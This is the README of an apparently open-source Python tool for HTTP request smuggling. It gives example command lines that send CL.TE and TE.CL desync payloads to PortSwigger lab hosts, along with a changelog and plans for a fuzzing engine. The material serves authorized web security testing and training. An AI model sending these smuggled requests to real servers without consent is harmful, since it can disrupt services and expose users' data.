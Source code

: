 # pyhttpsmuggler
Scripts related to web/request smuggling & general web hacking.
*This project is free to use and modify. The three things I ask of those interested in using/modifying/distributing this project is:
1. Users have the explicit consent from target host servers' maintainers to test for vulnerabilities-- as a successful exploit may disrupt web-services and/or leak sensitive user-data.
2. Any derivative project using any component from this project upholds the open-source philosophy with others in the research & development community.
3. Lastly, I ask (well, it's more of a statement really) that I assume no liability or responsibility for any & all potential consequences of others'actions when using this script on a live server instance.*
## General Information
- The keys for the argument list are colored yellow. The values are purple.
- The request body field is colored such that the purple portion denotes the substring of the request covered by the content-length field. The cyan portion denotes the part of the request to be smuggled. 
## Examples
*Note: passing arguments denoted by pairs of quotations (",') is necessary for request fields which may contain spaces or special charachters*
### CL.TE Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "35" --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" --debug "1"```
### TE.CL Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "4" --body-data "5c"```
```--smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug "1"```
## Changelog
### 9/4/2021
- Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.
### 9/5/2021
- Implemented a CLI using argparse and the WebRequest class. This introduces robustness and more opportunities for automation since worker threads can easily invoke specially-crafted requests by passing arguments over the CLI under the control of a parent thread or list of exploits to try.
- Updated README with example usage and development logs
# Todo:
## pyhttpsuggler-cli
1. [X] Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
2. [ ] Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
3. [ ] Create a text file with various desync attacks to test on an target webserver and a parser to turn the entries in the file into different requests.
4. [ ] Cleanup the chunk of if/elif/else login in pysmuggler.py:34-94
